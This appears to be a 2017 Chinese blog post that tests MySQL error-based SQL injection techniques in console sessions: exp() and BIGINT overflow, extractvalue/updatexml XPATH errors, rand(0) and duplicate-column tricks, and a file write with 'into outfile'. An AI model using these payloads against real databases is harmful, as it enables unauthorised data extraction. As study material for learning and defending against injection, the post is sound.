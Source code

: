 ```yaml
---
layout: post

title: "Mysql一些有趣的用法"
date: 2017-03-06 15:06:23 +0800

categories: post
tags: [mysql, sql注入, 网络安全]
---
```


1. 查看BIGIN最大值以及数据溢出

    ```bash
    mysql> select ~0;
    +----------------------+
    | ~0                   |
    +----------------------+
    | 18446744073709551615 |
    +----------------------+
    1 row in set (0.00 sec)

    mysql> select ~0+1;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0) + 1)'
    mysql>
    ```
    > 在mysql **5.5** 之前，整形溢出是不会报错的

1. 查看用户,以及查询返回值逻辑运算

    ```bash
    mysql> select user();
    +----------------+
    | user()         |
    +----------------+
    | root@localhost |
    +----------------+
    1 row in set (0.00 sec)

    mysql> select * from (select user()) x;
    +----------------+
    | user()         |
    +----------------+
    | root@localhost |
    +----------------+
    1 row in set (0.00 sec)

    mysql> select (select * from (select user()) x);
    +-----------------------------------+
    | (select * from (select user()) x) |
    +-----------------------------------+
    | root@localhost                    |
    +-----------------------------------+
    1 row in set (0.00 sec)

    mysql> select !(select * from (select user()) x);
    +------------------------------------+
    | !(select * from (select user()) x) |
    +------------------------------------+
    |                                  1 |
    +------------------------------------+
    1 row in set (0.00 sec)

    mysql> select !(select * from (select user()) x) + 1;
    +----------------------------------------+
    | !(select * from (select user()) x) + 1 |
    +----------------------------------------+
    |                                      2 |
    +----------------------------------------+
    1 row in set (0.00 sec)

    mysql>
    ```

1. 使用 [exp](http://www.w3resource.com/mysql/mathematical-functions/mysql-exp-function.php) 精度溢出

    ```bash
    mysql> select exp(709);
    +-----------------------+
    | exp(709)              |
    +-----------------------+
    | 8.218407461554972e307 |
    +-----------------------+
    1 row in set (0.00 sec)

    mysql> select exp(710);
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'
    mysql>
    ```

    > MySQL [EXP()](http://www.w3resource.com/mysql/mathematical-functions/mysql-exp-function.php) returns the value of the base of natural logarithm number e, raised to the power of a number specified as argument.

1. SQL注入:

    ```bash
    mysql> select exp(~(select * from (select user()) x));
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select `x`.`user()` from (select user() AS `user()`) `x`)))'
    ```
    等同于
    ```bash
    mysql> select exp(~1);
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~(1))'
    ```

    ```bash
    mysql> select (select (!x-~0) from (select (select user()) x) a);
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(`a`.`x`)) - ~(0))'
    ```
    > 在mysql **5.5.47** 可以在报错中返回查询结果,而在mysql **>5.5.53** 时，则不能返回查询结果

1. 查看mysql 版本

    ```bash
    mysql> select @@version;
    +-------------------------+
    | @@version               |
    +-------------------------+
    | 5.7.17-0ubuntu0.16.10.1 |
    +-------------------------+
    1 row in set (0.00 sec)

    mysql> select NAME_CONST(version(),1);
    +-------------------------+
    | 5.7.17-0ubuntu0.16.10.1 |
    +-------------------------+
    |                       1 |
    +-------------------------+
    1 row in set (0.00 sec)

    mysql>
    ```
1. xpath语法错误,暴露查询信息

    ```bash
    mysql> select extractvalue(1, (select @@version));
    ERROR 1105 (HY000): XPATH syntax error: '.17-0ubuntu0.16.10.1'
    mysql> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
    ERROR 1105 (HY000): XPATH syntax error: '~5.7.17-0ubuntu0.16.10.1~'
    mysql> select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
    ERROR 1105 (HY000): XPATH syntax error: '~5.7.17-0ubuntu0.16.10.1~'
    mysql>
    ```
    > MySQL [CONCAT()](http://www.w3resource.com/mysql/string-functions/mysql-concat-function.php)  function is used to add two or more strings.

1. 随机数漏洞
    ```bash
    mysql> select rand(0);
    +---------------------+
    | rand(0)             |
    +---------------------+
    | 0.15522042769493574 |
    +---------------------+
    1 row in set (0.00 sec)

    mysql> select floor(rand(0)*2);
    +------------------+
    | floor(rand(0)*2) |
    +------------------+
    |                0 |
    +------------------+
    1 row in set (0.00 sec)

    mysql>
    ```
    > rand(0)是个稳定的序列, floor(rand(0)\*2)则会固定得到011011...的序列

1. 表重复+JOIN 爆列名

    ```bash
    mysql> select * from (select * from information_schema.tables a join information_schema.tables b) c;
    ERROR 1060 (42S21): Duplicate column name 'TABLE_CATALOG'
    mysql>
    ```

> 本文为验证. 原文为: [\[Web安全\]MYSQL报错注入的一点总结](https://xianzhi.aliyun.com/forum/read/762.html)

---

使用exp创建文件,但是(高版本mysql)必须进行安全配置 [^1]

```bash
mysql> select exp(~(select * from(select 'hello') x)) into outfile '/tmp/exp.txt';
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
mysql>
```
---
索引

[^1]: [How to create/write a file using exp() in mySQL](http://stackoverflow.com/questions/37184480/how-to-create-write-a-file-using-exp-in-mysql)
